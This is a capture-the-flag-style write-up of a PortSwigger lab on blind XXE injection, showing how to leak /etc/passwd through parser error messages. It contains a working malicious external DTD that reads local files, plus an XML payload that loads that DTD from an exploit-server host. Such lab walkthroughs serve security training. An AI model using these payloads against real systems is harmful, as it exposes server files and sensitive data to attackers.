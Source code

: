 
# Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

---------------------------------------------

References: 

- https://portswigger.net/web-security/xxe/blind



![img](images/Exploiting%20blind%20XXE%20to%20retrieve%20data%20via%20error%20messages/1.png)

---------------------------------------------

First we store the malicious DTD in the exploit server:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```



![img](images/Exploiting%20blind%20XXE%20to%20retrieve%20data%20via%20error%20messages/2.png)


Then we send the XXE payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a89003a032db21e8245e131014c005d.exploit-server.net/malicious.dtd"> %xxe;]>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```




![img](images/Exploiting%20blind%20XXE%20to%20retrieve%20data%20via%20error%20messages/3.png)